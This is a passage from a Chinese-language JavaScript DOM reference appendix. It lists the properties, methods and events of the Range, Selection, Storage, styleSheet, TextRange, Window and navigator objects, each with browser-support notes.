- `cloneContents()` -- 返回一个复制了 Range 节点的文档片段。（支持: CH1+, FF1+, NN7+, O7+, SF1+） *返回值：* 文档片段节点引用。
- `cloneRange()` -- 返回一个边界点与克隆 Range 相同的 Range 对象。（支持: CH1+, FF1+, NN7+, O7+, SF1+） *返回值：* Range 对象引用。
- `collapse([startBool])` -- 将 Range 折叠到其边界点之一。（支持: CH1+, FF1+, NN6+, O7+, SF1+）
- `compareBoundaryPoints()` -- 比较两个 Range 的边界点。（支持: CH1+, FF1+, NN6+, O7+, SF1+） *返回值：* 整数（-1, 0, 或 1）。
- `compareNode(nodeRef)` -- 返回一个常量，表示节点是在范围之前、之后、内部还是环绕范围。Mozilla 专用。已弃用。（支持: FF1, FF1.5, NN6+） *返回值：* 整数（0, 1, 2, 或 3）。
- `comparePoint(nodeRef, offset)` -- 返回 -1, 0 或 1，表示该点发生在范围之前、内部还是之后。（支持: FF1+, NN6+） *返回值：* 整数（-1, 0, 或 1）。
- `createContextualFragment(text)` -- 返回从给定代码字符串创建的文档片段。Mozilla 专用。（支持: FF1+, NN6+） *返回值：* DOM 节点。
- `deleteContents()` -- 从文档中删除 Range 的内容。（支持: CH1+, FF1+, NN6+, O7+, SF1+）
- `detach()` -- 释放 Range 使用以提高性能。（支持: CH1+, FF1+, NN6+, O7+, SF1+）
- `extractContents()` -- 将 Range 的内容从文档树移动到文档片段。（支持: CH1+, FF1+, NN7+, O7+, SF1+） *返回值：* 文档片段节点引用。
- `insertNode(nodeReference)` -- 在 Range 的开始处插入节点。（支持: CH1+, FF1+, NN7+, O7+, SF1+）
- `isPointInRange(nodeRef, offset)` -- 返回布尔值，表示给定点是否在范围内。Mozilla 专用。（支持: FF1+, NN6+） *返回值：* 布尔值。
- `selectNode(nodeRef)` -- 设置 Range 包含该节点及其内容。（支持: CH1+, FF1+, NN6+, O7+, SF1+）
- `selectNodeContents(nodeRef)` -- 设置 Range 包含节点的内容。（支持: CH1+, FF1+, NN6+, O7+, SF1+）
- `setEnd(nodeRef, offset)` -- 设置 Range 的结束位置。（支持: FF1+, NN6+）
- `setEndAfter(nodeRef)` -- 设置 Range 结束在节点之后。（支持: CH1+, FF1+, NN6+, O7+, SF1+）
- `setEndBefore(nodeRef)` -- 设置 Range 结束在节点之前。（支持: CH1+, FF1+, NN6+, O7+, SF1+）
- `setStart(nodeRef, offset)` -- 设置 Range 的起始位置。（支持: FF1+, NN6+）
- `setStartAfter(nodeRef)` -- 设置 Range 起始在节点之后。（支持: CH1+, FF1+, NN6+, O7+, SF1+）
- `setStartBefore(nodeRef)` -- 设置 Range 起始在节点之前。（支持: CH1+, FF1+, NN6+, O7+, SF1+）
- `surroundContents(nodeRef)` -- 将内容放入新节点。（支持: CH1+, FF1+, NN7+, O7+, SF1+）
- `toString()` -- 返回 Range 的文本。（支持: CH1+, FF1+, NN6+, O7+, SF1+）

# Selection 对象引用

Selection 对象表示页面上的连续文本选择。请参见第 13 章：文档对象模型以获取关于选择和范围的解释。

## 属性

- `anchorNode` -- 选择开始的节点。（支持: FF1+, NN6+） *返回值：* DOM 节点，只读。
- `anchorOffset` -- 锚点在 `anchorNode` 中的偏移量。（支持: FF1+, NN6+） *返回值：* 整数，只读。
- `focusNode` -- 选择结束的节点。（支持: FF1+, NN6+） *返回值：* DOM 节点，只读。
- `focusOffset` -- 焦点在 `focusNode` 中的偏移量。（支持: FF1+, NN6+） *返回值：* 整数，只读。
- `isCollapsed` -- 返回布尔值，表示选择的起点和终点是否在同一位置。（支持: FF1+, NN6+） *返回值：* 布尔值，只读。
- `rangeCount` -- 返回选择中的范围数量。（支持: FF1+, NN6+） *返回值：* 整数，只读。
- `type` -- 表示元素类型（例如：button, submit, reset）。（支持: IE4+） *返回值：* 字符串，只读。
- `typeDetail` -- 获取选择类型的名称。（支持: IE5.5+） *返回值：* 字符串，只读。

## 方法

- `addRange(rangeRef)` -- 将添加到选择区域的范围对象。（支持: FF1+, NN6+）
- `clear()` -- 清空选择区域的内容。（支持: IE4+）
- `collapse(nodeRef, offset)` -- 将当前选择区域折叠为单点。（支持: FF1+, NN6+）
- `collapseToEnd()` -- 将选择区域的锚点移动到与焦点（focus）相同的位置。焦点移动。（支持: FF1+, NN6+）
- `collapseToStart()` -- 将选择区域的焦点移动到与锚点相同的位置。（支持: FF1+, NN6+）
- `containsNode()` -- 表示特定节点是否为选择区域的一部分。（支持: FF1+, NN6+） *返回：* 布尔。
- `createRange()` -- 创建一个 Range 对象。（支持: IE4+） *返回：* TextRange 对象。
- `deleteFromDocument()` -- 从父文档中移除选择区域。（支持: FF1+, NN6+）
- `empty()` -- 如果选择区域为空，则返回真值。（支持: IE4+）
- `extend(nodeRef, offset)` -- 将选择区域的焦点移动到指定点。（支持: FF1+, NN6+）
- `getRangeAt(rangeIndex)` -- 返回一个表示当前选择范围之一的范围对象。（支持: FF1+, NN6+） *返回：* Range 对象。
- `removeAllRanges()` -- 从选择区域移除所有范围。（支持: FF1+, NN6+）
- `removeRange(rangeRef)` -- 从选择区域中移除一个范围。（支持: FF1+, NN6+）
- `selectAllChildren(elementNodeRef)` -- 将指定节点的所有节点添加到选择区域。（支持: FF1+, NN6+）
- `toString()` -- 返回当前由选择对象表示的字符串。（支持: FF1+, NN6+）

# 存储对象引用

由 HTML 5 会话和本地存储接口创建。有关 HTML 5 DOM 存储，请参见第 18 章：客户端数据与持久化。

## 属性

- `length` -- 返回当前存储中的项目数量。（支持: FF3.5+, IE8+, SF4+）
- `remainingSpace` -- 返回当前存储对象未使用的存储空间（以字节为单位）。（支持: FF3.5+, IE8+, SF4+）

## 方法

- `clear()` -- 清空当前存储对象。（支持: FF3.5+, IE8+, SF4+）
- `getItem(keystring)` -- 返回当前存储对象中条目的值。（支持: FF3.5+, IE8+, SF4+）
- `key(lIndex)` -- 返回当前存储对象指定索引处的键。（支持: FF3.5+, IE8+, SF4+）
- `removeItem(keystring)` -- 移除当前存储对象中的条目。（支持: FF3.5+, IE8+, SF4+）
- `setItem(keystring, value)` -- 在当前存储对象设置存储键值对。（支持: FF3.5+, IE8+, SF4+）

## 事件

- `onstorage` -- 当存储区域发生变化时在文档中触发。（支持: FF3.5+, IE8+, SF4+）
- `onstoragecommit` -- 当本地存储写入磁盘时触发。（支持: IE8+）

# 样式对象引用

单个规则的接口。DOM 元素具有 Style 对象，样式表也是如此。

## 属性

- `media` -- 控制样式表针对何种输出设备的属性。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回：* 字符串，可读/写。
- `type` -- 设置或获取对象的 MIME 类型。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* 字符串，可读/写。

# styleSheet 对象引用

级联样式表（Cascading Stylesheet）的对象表示。

## 属性

- `cssRules` -- 以数组形式返回样式表中所有的 CSS 规则。（支持: CH1+, FF1+, NN6+, O9+, SF1+） *返回：* 规则对象数组，只读。
- `cssText` -- 设置或获取样式规则的持久化表示。（支持: IE5+） *返回：* 字符串，可读/写。
- `disabled` -- 表示当前样式表已应用。（支持: CH1+, FF1+, IE4+, NN6+, O9+, SF1+） *返回：* 布尔，可读/写。
- `href` -- 返回样式表的位置。（支持: CH1+, FF1+, IE4+, NN6+, O9+, SF1+） *返回：* 字符串，可读/写。
- `id` -- 分配给元素的标识。（支持: CH1+, IE4+） *返回：* 字符串，只读。
- `imports` -- 获取为相应 styleSheet 对象定义的所有导入样式表的集合。（支持: IE4+） *返回：* styleSheet 对象数组，只读。
- `media` -- 指定样式信息的预定目标媒介。（支持: CH1+, FF1+, IE4+, NN6+, O9+, SF1+） *返回：* 变化，可读/写。
- `ownerNode` -- 返回将此样式表与文档关联的节点。（支持: CH1+, FF1+, NN6+, O9+, SF1+） *返回：* DOM 节点，只读。
- `ownerRule` -- 如果此样式表来自 @import 规则，`ownerRule` 属性将包含 `CSSImportRule`。（支持: CH1+, FF1+, NN6+, O9+, SF1+） *返回：* cssRule 对象，只读。
- `owningElement` -- 获取 HTML 层次级结构中的下一个对象。（支持: IE4+） *返回：* DOM 节点，只读。
- `pages` -- 获取页面对象集合，代表样式表中的 @page 规则。（支持: IE5.5+） *返回：* @page 规则数组，只读。
- `parentStyleSheet` -- 返回包含此样式表的样式表（如果有的话）。（支持: CH1+, FF1+, IE4+, NN6+, O9+, SF1+） *返回：* styleSheet 对象，只读。
- `readOnly` -- 获取规则或样式表是定义在页面上还是导入的。（支持: IE4+） *返回：* 布尔，只读。
- `rules` -- 获取样式表中定义的规则集合。如果没有规则，返回的集合长度为 0。（支持: IE4+） *返回：* 规则对象数组，只读。
- `title` -- 返回当前样式表的提示性标题。（支持: CH1+, FF1+, IE4+, NN6+, O9+, SF1+） *返回：* 字符串，可读/写。
- `type` -- 指定此样式表的样式表语言。（支持: CH1+, FF1+, IE4+, NN6+, O9+, SF1+） *返回：* 字符串，可读/写。

## 方法

- `addImport(URL[, index])` -- 为指定的样式表向导入集合添加样式表。（支持: IE4+） *返回：* 整数。
- `addRule(selector, styleSpec[, index])` -- 为样式表创建一个新规则。（支持: IE4+） *返回：* 整数。
- `deleteRule(index)` -- 从样式表中删除规则。（支持: CH1+, FF1+, NN6+, O9+, SF1+）
- `insertRule(rule, index)` -- 将新的样式规则插入当前样式表。（支持: CH1+, FF1+, NN6+, O9+, SF1+） *返回：* 整数。
- `removeRule(index)` -- 删除样式 Sheet 对象的现有规则，并相应地调整规则集合的索引。（支持: IE4+）

# TextRange 引用

连续文本块的 W3C 实现。TextRange 对象对应 Microsoft 的 Range 对象。这在第 13 章中有解释。

## 属性

- `boundingHeight` -- 获取边界 TextRange 对象的矩形的高度。（支持: IE5.5+）
- `boundingLeft` -- 获取边界 TextRange 对象的矩形左边缘与包含 TextRange 的对象左侧之间的距离。（支持: IE5.5+）
- `boundingTop` -- 获取边界 TextRange 对象的矩形顶边缘与包含 TextRange 的对象顶侧之间的距离。（支持: IE5.5+）
- `boundingWidth` -- 获取边界 TextRange 对象的矩形的宽度。（支持: IE5.5+）
- `htmlText` -- 获取作为有效 HTML 片的源码。（支持: IE5.5+）
- `offsetLeft` -- 根据 `offsetParent` 属性，获取对象相对于布局或坐标父元素的计算左位置。（支持: IE5.5+）
- `offsetTop` -- 根据 `offsetParent` 属性，获取对象相对于布局或坐标父元素的计算顶位置。（支持: IE5.5+）
- `text` -- 设置或获取范围内包含的文本。（支持: IE5.5+）

## 方法

- `collapse([bStart])` -- 将插入点移动到当前范围的起始或结束位置。（支持: IE5.5+）
- `compareEndPoints(sType, oRange)` -- 将 `TextRange` 对象的端点与其他范围的端点进行比较。（支持: IE5.5+）
- `duplicate()` -- 返回 `TextRange` 的副本。（支持: IE5.5+）
- `execCommand(sCommand [, bUserInterface] [, vValue])` -- 在当前文档、当前选择内容或给定范围上执行命令。（支持: IE5.5+）
- `expand(sUnit)` -- 扩展范围，使部分单元完全包含在内。（支持: IE5.5+）
- `findText(sText [, iSearchScope] [, iFlags])` -- 在文档中搜索文本，并定位范围的起始和结束点以包含搜索字符串。（支持: IE5.5+）
- `getBookmark()` -- 获取书签（不透明字符串），该字符串可配合 `moveToBookmark` 使用返回相同的范围。（支持: IE5.5+）
- `getBoundingClientRect()` -- 获取一个指定一组 `TextRectangle` 对象边界的对象。（支持: IE5.5+）
- `getClientRects()` -- 获取一组矩形，描述客户端内对象或范围内容的内容的布局。每个矩形描述单行。（支持: IE5.5+）
- `inRange(oRange)` -- 返回一个值，指示一个范围是否包含在另一个范围内。（支持: IE5.5+）
- `isEqual(oCompareRange)` -- 返回一个值，指示指定的范围是否等于当前范围。（支持: IE5.5+）
- `move(sUnit [, iCount])` -- 折叠给定的文本范围按指定的单元数移动空范围。（支持: IE5.5+）
- `moveEnd(sUnit [, iCount])` -- 更改范围的结束位置。（支持: IE5.5+）
- `moveStart(sUnit [, iCount])` -- 更改范围的起始位置。（支持: IE5.5+）
- `moveToBookmark(sBookmark)` -- 移动到书签处。（支持: IE5.5+）
- `moveToElementText(oElement)` -- 移动文本范围，使范围的起始和结束位置包含给定元素中的文本。（支持: IE5.5+）
- `moveToPoint(iX, iY)` -- 将文本范围的起始和结束位置移动到给定点。（支持: IE5.5+）
- `parentElement()` -- 获取给定文本范围的父元素。（支持: IE5.5+）
- `pasteHTML(sHTMLText)` -- 将 HTML 文本粘贴到给定的文本范围内，替换范围内之前的任何文本和 HTML 元素。（支持: IE5.5+）
- `queryCommandEnabled(sCmdID)` -- 返回一个布尔值，指示在当前文档状态下，指定的命令是否可以使用 `execCommand` 成功执行。（支持: IE5.5+）
- `queryCommandIndeterm(sCmdID)` -- 返回一个布尔值，指示指定的命令是否处于确定状态。（支持: IE5.5+）
- `queryCommandState(sCmdID)` -- 返回一个布尔值，指示命令当前的状态。（支持: IE5.5+）
- `queryCommandSupported(sCmdID)` -- 返回一个布尔值，指示当前范围是否支持当前命令。（支持: IE5.5+）
- `queryCommandValue(sCmdID)` -- 返回给定命令在文档、范围或当前选择内容中的当前值。（支持: IE5.5+）
- `scrollIntoView([bAlignToTop])` -- 使对象滚动到视图中，将其对齐到窗口的顶部或底部。（支持: IE5.5+）
- `select()` -- 使选择内容等于当前对象。（支持: IE5.5+）
- `setEndPoint(sType, oTextRange)` -- 根据另一个范围的端点设置一个范围的端点。（支持: IE5.5+）

# Window 对象引用

window 对象代表浏览器窗口本身，同时也是全局对象的引用。

## 属性

- `applicationCache` -- 在 Mozilla 中，一个 `nsIDOMOfflineResourceList` 对象，提供对窗口离线资源的访问。（支持: FF3+） *返回：* 对象数组，只读。
- `clientInformation` -- 包含关于浏览器的信息。（支持: IE5+） *返回：* `navigator` 对象。
- `clipboardData` -- 提供对预定义剪贴格式的访问，用于编辑操作。（支持: IE5+） *返回：* `Object`。
- `closed` -- 此属性表示当前窗口是否关闭。（支持: CH1+, FF1+, IE4+, NN3+, O7+, SF1+） *返回：* `Boolean`，只读。
- `Components[]` -- 许多 XPCOM 特性的入口。（支持: FF1+, NN6+） *返回：* 对象数组。
- `content` -- 返回当前窗口中内容元素的引用。（支持: FF1+, NN6+） *返回：* `DOM Node`。
- `controllers[]` -- 在 Mozilla 中，返回当前 chrome 窗口的 XUL 控制器对象。（支持: FF1+, NN6+） *返回：* 对象数组。
- `crypto` -- 返回浏览器的加密对象，该对象可用于操作各种浏览器安全功能。（支持: FF1+, NN6+, O3+） *返回：* `Object Reference`，只读。
- `defaultStatus` -- 获取并设置给定窗口的状态栏文本。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回：* `String`，可读/写。
- `dialogArguments` -- 如果是对话框，则获取调用 `window.showModalDialog()` 时传递给窗口的参数。（支持: FF3+, IE4+） *返回：* 只读。
- `dialogHeight` -- 如果是对话框，获取窗口的高度。（支持: IE4+） *返回：* `String`，可读/写。
- `dialogLeft` -- 如果是对话框，获取窗口的左侧坐标。（支持: IE4+） *返回：* `String`，可读/写。
- `dialogTop` -- 如果是对话框，获取窗口的顶部坐标。（支持: IE4+） *返回：* `String`，可读/写。
- `dialogWidth` -- 如果是对话框，获取窗口的宽度。（支持: IE4+） *返回：* `String`，可读/写。
- `directories` -- 返回当前 chrome 中目录栏的引用。（支持: FF1+, NN4+） *返回：* `Object`，可读/写。
- `document` -- 文档对象的引用。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+） *返回：* `DOM Node`，只读。
- `event` -- 全局事件对象是某些浏览器（IE 和 Safari）中窗口对象的成员。（支持: IE4+, SF1+） *返回：* `Object`，可读/写。
- `external` -- 允许访问由 Windows Internet Explorer 浏览器组件主机应用程序提供的对象模型。（支持: IE4+） *返回：* `Object`，只读。
- `frameElement` -- 返回嵌入窗口的元素，如果窗口未嵌入，则返回 null。（支持: CH1+, FF1+, IE5+, NN7+, O8+, SF1+） *返回：* `Object Reference`，只读。
- `frames` -- 返回当前窗口中子帧的数组。（支持: CH1+, FF1+, IE3+, NN2+, O6+, SF1+） *返回：* 对象数组，只读。
- `fullScreen` -- 此属性表示窗口是否以全屏显示。（支持: FF1+, NN7+） *返回：* `Boolean`，只读。
- `globalStorage` -- 用于跨多个页面存储数据的多个存储对象。（支持: FF2+） *返回：* `Object`，只读。
- `history` -- 返回历史对象的引用。（支持: CH1+, FF1+, IE3+, NN2+, O5+, SF1+） *返回：* `Object`，只读。
- `innerHeight` -- 获取浏览器窗口内容区域的高度，包括（如果已渲染）水平滚动条。（支持: FF1+, NN4+） *返回：* `Integer`，可读/写。
- `innerWidth` -- 获取浏览器窗口内容区域的宽度，包括（如果已渲染）垂直滚动条。（支持: FF1+, NN4+） *返回：* `Integer`，可读/写。
- `length` -- 元素的数量。在表单中，它是表单元素；在 SELECT 框中，它是 OPTION 字段；在 History 对象中，它是条目。（支持: FF1+） *返回：* `Integer`，只读。
- `location` -- 获取并设置窗口的位置或当前 URL。（支持: CH1+, FF1+, IE3+, NN2+, O5+, SF1+） *返回：* `Object`，可读/写。
- `locationbar` -- 返回位置栏对象，可以在窗口中切换显示性。（支持: FF1+, NN4+） *返回：* `Object`，可读/写。
- `menubar` -- 返回菜单栏对象，可以在窗口中切换显示性。（支持: FF1+, NN4+） *返回：* `Object`，可读/写。
- `name` -- 获取并设置名称属性。（支持: CH1+, FF1+, IE3+, NN2+, O5+, SF1+） *返回：* `String`，可读/写。
- `navigator` -- 返回 navigator 对象，可以查询运行脚本的信息。（支持: CH1+, FF1+, IE3+, NN2+, O4+, SF1+） *返回：* `Object`，只读。
- `offscreenBuffering` -- 控制是否使用离屏缓冲区来及时渲染屏幕内容。仅在 IE4 和 Safari 中支持。*返回：* `Boolean`，可读/写。
- `opener` -- 设置或获取创建当前窗口的引用。（支持: CH1+, FF1+, IE3+, NN3+, O7+, SF1+） *返回：* Window 对象引用。
- `outerHeight` -- 获取浏览器外部的高度。（支持: FF1+, NN4+） *返回：* `Integer`，可读/写。
- `outerWidth` -- 获取浏览器外部的宽度。（支持: FF1+, NN4+） *返回：* `Integer`，可读/写。
- `pageXOffset` -- `window.scrollX` 的别名。（支持: FF1+, NN4+, SF1+） *返回：* `Integer`，只读。
- `pageYOffset` -- `window.scrollY` 的别名。（支持: CH1+, FF1+, NN4+, O7+, SF1+） *返回：* `Integer`，只读。
- `parent` -- 返回当前窗口或子帧的父级引用。（支持: CH1+, FF1+, IE3+, NN2+, O6+, SF1+） *返回：* Window 对象引用，只读。
- `personalbar` -- 返回个性栏对象，可以在窗口中切换显示性。（支持: FF1+, NN4+） *返回：* `Object`，可读/写。
- `pkcs11` -- 返回 pkcs11 对象，用于安装与 pkcs11 协议相关的驱动和其他软件。（支持: FF1+, NN6+） *返回：* `Object Reference`，只读。
- `returnValue` -- 返回给调用 `window.showModalDialog()` 以显示模态对话框的返回值。（支持: FF3+, IE4+） *返回：* 任意数据类型，可读/写。
- `screen` -- 返回与窗口相关的屏幕对象。（支持: CH1+, FF1+, IE4+, NN6+, O7+, SF1+） *返回：* `Object`，只读。
- `screenLeft` -- 获取浏览器客户区域相对于屏幕左上角的 x 坐标。（支持: CH1+, FF1+） *返回：* `Integer`，只读。
- `screenTop` -- 获取浏览器客户区域相对于屏幕左上角的 y 坐标。（支持: IE5+, SF1+） *返回：* `Integer`，只读。
- `screenX` -- 浏览器窗口边界相对于显示器左上角的 x 坐标。（支持: CH1+, FF1+, NN6+, SF1+） *返回：* `Integer`，可读/写。
- `screenY` -- 浏览器窗口边界相对于显示器左上角的 y 坐标。（支持: CH1+, FF1+, NN6+, SF1+） *返回：* `Integer`，可读/写。
- `scrollbars` -- 返回滚动条对象，可以在窗口中切换显示性。（支持: FF1+, NN4+） *返回：* `Object`，可读/写。
- `scrollMaxX` -- 窗口水平滚动的最大偏移。（支持: FF1+, NN7+, SF1+） *返回：* `Integer`，可读/写。
- `scrollMaxY` -- 窗口垂直滚动的最大偏移。（支持: CH1+, FF1+, NN7+, SF1+） *返回：* `Integer`，可读/写。
- `scrollX` -- 文档水平滚动的像素数。（支持: CH1+, FF1+, NN6+, SF1+） *返回：* `Integer`，只读。
- `scrollY` -- 文档垂直滚动的像素数。（支持: CH1+, FF1+, NN6+, SF1+） *返回：* `Integer`，只读。
- `self` -- 返回窗口自身的对象引用。（支持: CH1+, FF1+, IE3+, NN2+, O6+, SF1+） *返回：* Window 对象引用，只读。
- `sessionStorage` -- 用于在单页会话内存储数据的存储对象。（支持: FF2+） *返回：* `Object`，只读。
- `sidebar` -- 返回侧边栏窗口引用。（支持: FF1+, NN6+） *返回：* `DOM Node`。
- `status` -- 获取并设置浏览器底部状态栏的文本。（支持: CH1+, FF1+, IE3+, NN2+, O5+, SF1+） *返回：* `String`，可读/写。
- `statusbar` -- 返回状态栏对象，可以在窗口中切换显示性。（支持: FF1+, NN4+） *返回：* `Object`，可读/写。
- `toolbar` -- 返回工具栏对象，可以在窗口中切换显示性。（支持: FF1+, NN4+） *返回：* `Object`，可读/写。
- `top` -- 返回窗口层次结构中最顶部窗口的引用。（支持: CH1+, FF1+, IE3+, NN2+, O5+, SF1+） *返回：* Window 对象引用。
- `window` -- 返回当前窗口对象的引用。（支持: CH1+, FF1+, IE3+, NN2+, O5+, SF1+） *返回：* Window 对象引用，只读。

## Methods

- `alert()` -- 显示警报对话框。（支持: CH1+, FF1+, IE3+, NN2+, O3+, SF1+）
- `atob()` -- 解码使用 base-64 编码的数据字符串。（支持: FF1.5+） *返回：* String。
- `back()` -- 在窗口历史记录中后退一步。（支持: FF1+, NN4+）
- `blur()` -- 使元素失去焦点并触发 `onblur` 事件。（支持: FF1.5+）
- `btoa()` -- 从二进制数据字符串创建 base-64 编码的 ASCII 字符串。（支持: FF1.5+） *返回：* String。
- `clearInterval(intervalReference)` -- 取消使用 `setInterval` 设置的重复执行。（支持: CH1+, FF1+, IE4+, NN4+, O6+, SF1+）
- `clearTimeout(timeoutReference)` -- 清除使用 `setTimeout` 为特定函数设置的延迟。（支持: CH1+, FF1+, IE3+, NN2+, O5+, SF1+）
- `close()` -- 关闭当前窗口。（支持: CH1+, FF1+, IE3+, NN2+, O5+, SF1+）
- `confirm(message)` -- 显示带有消息的对话框，用户必须对其做出响应。（支持: CH1+, FF1+, IE3+, NN2+, O5+, SF1+） *返回：* Boolean。
- `createPopup()` -- 创建一个弹出窗口对象。（支持: IE5.5+） *返回：* Object。
- `dump(message)` -- 将消息打印到控制台，通常用于调试 JavaScript。（支持: FF1+, NN7+）
- `escape(string)` -- 编码字符串，将某些字符替换为十六进制转义序列。（支持: CH1+, FF1+, IE4+, NN6+, O6+, SF1+） *返回：* String。
- `execScript(expressionList[, language])` -- 在提供的语言中执行指定的脚本。（支持: IE4+）
- `find(searchString[, matchCaseBool, searchUpBool])` -- 在窗口中查找字符串。（支持: FF1+, NN4+） *返回：* Boolean。
- `focus()` -- 给当前元素键盘焦点，并触发 `onfocus` 事件。（支持: FF1.5+）
- `forward()` -- 在窗口历史记录中向前移动一个文档。（支持: FF1+, NN4+）
- `getAttention()` -- 尝试获取用户的注意力。具体实现方式取决于操作系统和窗口管理器。注意：Web 内容未启用此功能。（支持: FF1+, NN6+）
- `getComputedStyle(elementNodeReferece, pseudoElName)` -- 获取指定元素的计算样式。计算样式表示该元素所有 CSS 属性的计算值。（支持: FF1+） *返回：* CSS style object。
- `getSelection()` -- 返回代表所选项目或多个项目的选择对象。（支持: FF1+, NN6+） *返回：* Selection object。
- `home()` -- 将浏览器返回主页。（支持: FF1+, NN4+）
- `moveBy(x,y)` -- 按指定的量移动当前窗口。（支持: CH1+, FF1+, IE4+, NN4+, O6+, SF1+）
- `moveTo(x,y)` -- 将窗口移动到指定的坐标。（支持: CH1+, FF1+, IE4+, NN4+, O6+, SF1+）
- `navigate(URL)` -- 将指定的 URL 加载到当前窗口。（支持: IE4+）
- `open(URL, windowName [, windowFeatures[, replaceFlag]])` -- 打开新窗口并加载由 URL 指定的文档。（支持: CH1+, FF1+, IE3+, NN2+, O5+, SF1+） *返回：* Window object。
- `openDialog(URL, windowName[, windowFeatures[, arg1[, argn]]])` -- `window.open` 的扩展——行为相同，不同之处它可以可选地在 windowFeatures 之后接受一个或多个参数，且 windowFeatures 本身处理方式略有。（支持: FF1+, NN7+） *返回：* Window object。
- `postMessage(message, targetOrigin)` -- 为一个窗口向另一个窗口发送数据字符串提供安全手段，另一个窗口不需要与第一个窗口处于同一域，且方式是安全的。（支持: FF3+）
- `print()` -- 打开打印对话框以打印当前文档。（支持: FF1+, IE5+, NN4+, O6+）
- `prompt(message, defaultReply)` -- 返回用户在提示对话框中输入的文本。（支持: CH1+, FF1+, IE3+, NN2+, O5+, SF1+） *返回：* String。
- `resizeBy(x,y)` -- 按一定的量调整当前窗口大小。（支持: CH1+, FF1+, IE4+, NN4+, O6+, SF1+）
- `resizeTo(x,y)` -- 调整窗口大小。（支持: CH1+, FF1+, IE4+, NN4+, O6+, SF1+）
- `scroll(x,y)` -- 将窗口滚动到文档中的特定位置。（支持: CH1+, FF1+, IE4+, NN3+, O5+, SF1+）
- `scrollBy(x,y)` -- 按给定量滚动窗口内的文档。（支持: CH1+, FF1+, IE4+, NN4+, O6+, SF1+）
- `scrollByPages(intervalCount)` -- 按指定的页数滚动当前文档。（支持: FF1+, NN6+）
- `scrollTo(x,y)` -- 滚动到文档中一组特定的坐标。（支持: CH1+, FF1+, IE4+, NN4+, O6+, SF1+）
- `setInterval(expression, delayMS[, language])` -- 每隔 delayMS 毫秒执行一次函数。（支持: CH1+, FF1+, IE4+, NN4+, O6+, SF1+） *返回：* Object Reference。
- `setTimeout(func, delay, [param1, param2, ...])` -- 在指定的延迟后执行一段代码或一个函数。（支持: CH1+, FF1+, IE3+, NN2+, O5+, SF1+） *返回：* Timer object。
- `showHelp(url[, contextID])` -- 显示帮助文件。此方法可配合 Microsoft HTML Help 使用。（支持: IE4+）
- `showModalDialog(URL[, arguments[, features]])` -- 创建模态对话框，通过 URL 显示指定的 HTML 文档。（支持: FF3+, IE4+, SF2+）
- `showModelessDialog(URL[, arguments[, features]])` -- 创建非模态对话框，通过 URL 显示指定的 HTML 文档。（支持: IE4+, SF2+） *返回：* Window object。
- `sizeToContent()` -- 根据内容调整窗口大小。（支持: FF1+, NN6+）
- `stop()` -- 此方法停止窗口加载。（支持: FF1+, NN4+）
- `unescape(string)` -- 解码经过十六进制编码的值，可能是由 `escape()` 函数编码的。（支持: CH1+, FF1+, IE4+, NN3+, O5+, SF1+） *返回：* String。
- `updateCommands(sCommandName)` -- 更新当前外窗口命令的状态。（支持: FF1+）

## Events

- `onafterprint` -- 在窗口打印后触发。（支持: IE5+）
- `onbeforeprint` -- 在窗口打印前触发。（支持: IE5+）
- `onbeforeunload` -- 在窗口卸载之前触发。（支持: FF1+, IE4+）
- `onblur` -- 当窗口失去焦点时触发。（支持: FF1+, NN6+）
- `onchange` -- 当文档发生变化时触发。（支持: FF1+, NN7+）
- `onclick` -- 当窗口上发生鼠标点击时触发。（支持: FF1+, IE6+, NN7+）
- `onclose` -- 当窗口关闭时触发。（支持: FF1+, NN7+）
- `oncontextmenu` -- 当触发键菜单时触发。（支持: CH1+, FF1+, IE5+, NN6+, O7+, SF1+）
- `ondragdrop` -- 当文档被拖到窗口上时触发。（支持: FF1+）
- `onerror` -- 返回 `onerror` 事件的事件代码（用于 JavaScript 错误）。（支持: CH1+, FF1+, IE4+, NN3+, O6+, SF1+） *返回值:* 可读/写。
- `onfocus` -- 当窗口接收焦点时触发。（支持: FF1+, IE5.5+, NN7, NN9）
- `onhelp` -- 当按下帮助键（通常为 F1）时触发。（支持: IE4+）
- `onkeydown` -- 当按下键时触发。（支持: FF1+, NN7+）
- `onkeypress` -- 当按下并释放一个键时触发。（支持: FF1+, NN7+）
- `onkeyup` -- 当释放键时触发。（支持: FF1+, NN7+）
- `onload` -- 当文档加载完成（包括所有图像和外部文件）时触发。（支持: CH1+, FF1+, IE3+, NN2+, O5+, SF1+）
- `onmousedown` -- 当按下鼠标键时触发。（支持: FF1+, IE5.5+, NN7+）
- `onmousemove` -- 当窗口记录到鼠标移动时触发。（支持: CH1+, FF1+, IE5+, NN7+, O7+, SF1+）
- `onmouseout` -- 当鼠标移出窗口时触发。（支持: FF1+, NN5+）
- `onmouseover` -- 当鼠标移到窗口上时触发。（支持: FF1+, NN6+）
- `onmouseup` -- 当释放鼠标键时触发。（支持: FF1+, NN7+）
- `onpaint` -- 当窗口被渲染时触发。已弃用。（支持: FF1+, NN7+）
- `onreset` -- 当用户点击表单上的重置按钮时触发。（支持: FF1+, NN6+）
- `onresize` -- 当用户调整窗口大小时触发。（支持: CH1+, FF1+, IE3+, NN4+, O5+, SF1+）
- `onscroll` -- 当用户滚动窗口时触发。（支持: CH1+, FF1+, IE4+, NN7+, O7+, SF1+）
- `onselect` -- 当文本框或文本区域内的文本被选中时触发。（支持: FF1+, NN6+）
- `onsubmit` -- 当表单提交时触发。（支持: FF1+, NN6+）
- `onunload` -- 在页面卸载时触发（例如在页面切换期间）。（支持: CH1+, FF1+, IE3+, NN2+, O5+, SF1+）

## navigator

返回 `navigator` 对象的引用，可以通过该对象查询运行脚本的应用程序的信息。

### 属性

- `navigator.appCodeName` -- 返回当前浏览器的内部代码名称。（支持: CH1+, FF1+, IE3+, NN2+, O4+, SF1+） *返回值:* String, 只读。
- `navigator.appMinorVersion` -- 完整版本号小数点右侧数字。（支持: IE4+） *返回值:* String, 只读。
- `navigator.appName` -- 返回浏览器的官方名称。（支持: CH1+, FF1+, IE3+, NN2+, O4+, SF1+） *返回值:* String, 只读。
- `navigator.appVersion` -- 以字符串形式返回浏览器版本。（支持: CH1+, FF1+, IE3+, NN2+, O4+, SF1+） *返回值:* String, 只读。
- `navigator.browserLanguage` -- 浏览器的本地化语言。有效值可能包括 en, de, es 等。（支持: IE4+） *返回值:* String, 只读。
